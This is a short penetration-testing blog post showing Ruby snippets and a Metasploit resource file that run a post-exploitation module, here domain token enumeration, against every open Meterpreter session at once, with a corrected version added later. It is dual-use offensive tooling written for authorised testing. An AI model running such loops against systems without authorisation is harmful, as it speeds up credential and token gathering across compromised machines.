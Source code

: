 = Run POST Modules On All Sessions
:hp-tags: metasploit, meterpreter, post modules

[Jcran](http://twitter.com/jcran) recently blogged about an easy way to run a post module on all sessions:

[http://blog.pentestify.com/simple-framework-domain-token-scanner](http://blog.pentestify.com/simple-framework-domain-token-scanner)

```ruby
msf> use post/windows/gather/enum_domain_tokens
msf enum_domain_tokens> irb
framework.sessions.each do |session|
  run_single("set SESSION #{session.first}")
  run_single("run")
  sleep 1
end
```

You use the POST module, drop to IRB and run those 4 lines, and bam, you win. With resource files we can automate this a bit more and have it so that we do this effortlessly with any post module.

Thinking back to [http://blog.metasploit.com/2010/03/automating-metasploit-console.html](http://blog.metasploit.com/2010/03/automating-metasploit-console.html) and my rapid file PSEXEC resource file, we know we can run ruby inside of resource files with the <ruby> tag.

Save the following as runall.rc somewhere where you'll remember:

```ruby 
framework.sessions.each do |session|
  run_single("set SESSION #{session.first}")
  print_status("Running #{active_module.fullname} against session #{session.first}")
  run_single("run")
  sleep 1
end
```

Then when you want to run a POST module against every session you have you simply do:

```
msf> use post/windows/gather/enum_domain_tokens
msf enum_domain_tokens> resource runall.rc
[*] Running post/windows/gather/enum_domain_tokens on session 1
``` 
**Update** on 2011-11-06 20:05 by Rob Fuller

A commenter noticed an error in the coding for cross compatibility. The following should work better across versions:

```ruby
framework.sessions.each_key do |session|
  run_single("set SESSION #{session}")
  print_status("Running #{active_module.fullname} against session #{session}")
  run_single("run")
  sleep 1
end
```